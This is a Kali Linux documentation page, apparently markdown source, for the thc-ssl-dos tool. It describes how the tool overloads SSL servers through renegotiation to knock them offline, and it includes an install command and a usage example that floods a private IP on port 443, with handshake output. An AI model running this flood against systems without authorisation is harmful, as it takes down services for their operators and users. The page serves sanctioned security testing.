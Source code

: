 ```yaml
---
Title: thc-ssl-dos
Homepage: http://www.thc.org/thc-ssl-dos/
Repository: https://gitlab.com/kalilinux/packages/thc-ssl-dos
Architectures: any
Version: 1.4-1kali3
Metapackages: kali-linux-everything kali-linux-large kali-tools-vulnerability kali-tools-web 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### thc-ssl-dos
 
  THC-SSL-DOS is a tool to verify the performance of SSL.
   
  Establishing a secure SSL connection requires 15x more processing
  power on the server than on the client.
   
  THC-SSL-DOS exploits this asymmetric property by overloading the
  server and knocking it off the Internet.
   
  This problem affects all SSL implementations today. The vendors are aware
  of this problem since 2003 and the topic has been widely discussed.
   
  This attack further exploits the SSL secure Renegotiation feature
  to trigger thousands of renegotiations via single TCP connection.
 
 **Installed size:** `35 KB`  
 **How to install:** `sudo apt install thc-ssl-dos`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libpcap0.8
 * libssl1.1 
 * openssl
 {{< /spoiler >}}
 
 ##### thc-ssl-dos
 
 
 ```
 root@kali:~# thc-ssl-dos -h
      ______________ ___  _________
      \__    ___/   |   \ \_   ___ \
        |    | /    ~    \/    \  \/
        |    | \    Y    /\     \____
        |____|  \___|_  /  \______  /
                      \/          \/
             http://www.thc.org
 
           Twitter @hackerschoice
 
 Greetingz: the french underground
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## thc-ssl-dos Usage Example

Using 100 connections (`-l 100`), flood the target IP (`192.168.1.208`) and port (`443`):

```
root@kali:~# thc-ssl-dos -l 100 192.168.1.208 443 --accept
     ______________ ___  _________
     \__    ___/   |   \ \_   ___ \
       |    | /    ~    \/    \  \/
       |    | \    Y    /\     \____
       |____|  \___|_  /  \______  /
                     \/          \/
            http://www.thc.org

          Twitter @hackerschoice

Greetingz: the french underground

Waiting for script kiddies to piss off................
The force is with those who read the source...
Handshakes 0 [0.00 h/s], 1 Conn, 0 Err
Handshakes 2 [2.90 h/s], 6 Conn, 0 Err
Handshakes 25 [22.42 h/s], 13 Conn, 0 Err
Handshakes 70 [43.97 h/s], 20 Conn, 0 Err
Handshakes 125 [56.51 h/s], 27 Conn, 0 Err
Handshakes 185 [62.09 h/s], 33 Conn, 0 Err
Handshakes 262 [74.56 h/s], 41 Conn, 0 Err
Handshakes 365 [104.93 h/s], 47 Conn, 0 Err
Handshakes 496 [131.23 h/s], 54 Conn, 0 Err
```
